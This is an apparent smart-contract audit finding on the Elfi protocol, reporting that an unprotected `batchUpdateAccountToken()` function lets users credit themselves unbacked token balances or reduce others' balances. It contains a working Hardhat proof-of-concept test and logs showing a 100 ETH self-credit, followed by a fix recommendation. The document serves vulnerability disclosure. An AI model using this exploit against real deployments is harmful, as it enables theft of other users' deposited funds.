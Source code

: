 Ripe Hemp Perch

high

# Users can increase their balances without token deposits

## Summary
Considering balance changes are mutated during swaps, deposits, stakes, withdrawals, order, and position openings, users can leverage the unprotected `batchUpdateAccountToken()` function of the AccountFacet contract to allocate themselves token balances which leads to a loss of funds for other legitimate users' deposits.

## Vulnerability Detail
```solidity
// @note seen but who calls this? @audit unprotected calls
    function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override {
        AddressUtils.validEmpty(params.account);
        AssetsProcess.updateAccountToken(params);  // @audit user can give themselves balances
    }
```

The `updateAccountToken()` function is called after a swap happens in the net positive/negative for a given user and mutates the user's balance of the net delta for the token swapped, but this function is also called when you interact with the AccountFacet directly outside of the StakeFacet, by calling `batchUpdateAccountToken()` which then calls `updateAccountToken()` that does the logic below:

```solidity
function updateAccountToken(UpdateAccountTokenParams calldata params) external {
        Account.Props storage accountProps = Account.load(params.account);
        accountProps.checkExists();
        for (uint256 i; i < params.tokens.length; i++) {
            if (params.changedTokenAmounts[i] == 0) {
                continue;
            }
            if (params.changedTokenAmounts[i] > 0) {
                accountProps.addToken(params.tokens[i], params.changedTokenAmounts[i].toUint256());
                accountProps.repayLiability(params.tokens[i]);
            } else { // @audit another user can mutate their posted collateral outside of swaps by calling the `batchUpdateAccountToken` function on the account facet directly
                accountProps.subToken(params.tokens[i], (-params.changedTokenAmounts[i]).toUint256());
            }
        }
    }
```

What the function block basically does, is credit users, remove from user account balances for a specified token, and repay user liabilities anytime they do have one and a new deposit or credit comes in for the said user as can for example be seen from the `addToken()` function logic below for the accounting process:

```solidity
function addToken(Props storage self, address token, uint256 amount) external {
        addToken(self, token, amount, UpdateSource.DEFAULT);
    }

    function addToken(Props storage self, address token, uint256 amount, UpdateSource source) public {
        if (!self.tokens.contains(token)) {
            self.tokens.add(token);
        }
        TokenBalance storage balance = self.tokenBalances[token];
        TokenBalance memory preBalance = balance;
        balance.amount += amount;
        emit AccountTokenUpdateEvent(self.owner, token, preBalance, balance, source);
    }
```

## Impact
There are a couple of ways to cause problems with this: 

1. The most interesting one would be an attacker giving themself a net positive balance without having deposited the said balance and not having any open liabilities. This would allow the attacker to take out funds belonging to other users and/or open positions with fake balances
2. Reducing other users' balances arbitrarily resulting in a net negative for the users who can't open positions or withdraw back tokens

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71

Paste the coded POC below in the `increaseMarketOrder.test.ts` file:

```solidity
it('Case IncBal: Increase balance of user arbitrarily', async function () {

    // user deposits first
    const amount = precision.token(1, 17) // 0.1 ETH
    const tx = await accountFacet.connect(user0).deposit(ethers.ZeroAddress, amount,
      {
        value: amount,
      },
    )
    await tx.wait()


    // user initial balance post-deposit
    const userAddr = user0.address;
    const accountInfo = await accountFacet.getAccountInfo(user0.address)
    // console.log("accountInfo: ", accountInfo);
    expect(user0.address).to.equals(accountInfo.owner)
    expect(amount).to.equals(account.getAccountTokenAmount(accountInfo, wethAddr))

    // user then gives themself a balance increase of 100 ethers to round up to 100.1 ether balance
    const balIncrement = precision.token(100, 18) // 100 ethers
    const increaseBalTx = await accountFacet.connect(user0).batchUpdateAccountToken({
      account: userAddr,
      tokens: [wethAddr],
      changedTokenAmounts: [balIncrement]
    })
    await increaseBalTx.wait()

    // checking user internal balance post account balance increase
    const accountInfoPostIncr = await accountFacet.getAccountInfo(user0.address)
    console.log("accountInfo post-inc: ", accountInfoPostIncr);
    expect(user0.address).to.equals(accountInfoPostIncr.owner)
    expect(amount + balIncrement).to.equals(account.getAccountTokenAmount(accountInfoPostIncr, wethAddr))
  })
```
Logs:
```solidity
accountInfo post-inc:  Result(11) [
  '0x70997970C51812dc3A010C7d01b50e0d17dc79C8',
  Result(1) [ Result(4) [ 100100000000000000000n, 0n, 0n, 0n ] ],
  Result(1) [ '0x5FbDB2315678afecb367f032d93F642f64180aa3' ],
  Result(0) [],
  0n,
  0n,
  0n,
  0n,
  0n,
  0n,
  0n
]
    ✔ Case IncBal: Increase balance of user arbitrarily (70ms)
```

## Tool used

Manual Review

## Recommendation
The `updateAccountToken` is called during swaps which is great as a logic of the StakeFacet because the swap would have to be successful and an attacker can't actually do any direct calls inside the StakeFacet to this function but they can from the `AccountFacet` which is exposed. Removing the `batchUpdateAccountToken` function from the AccountFacet would fix this issue or better still, gate the function for who can call it.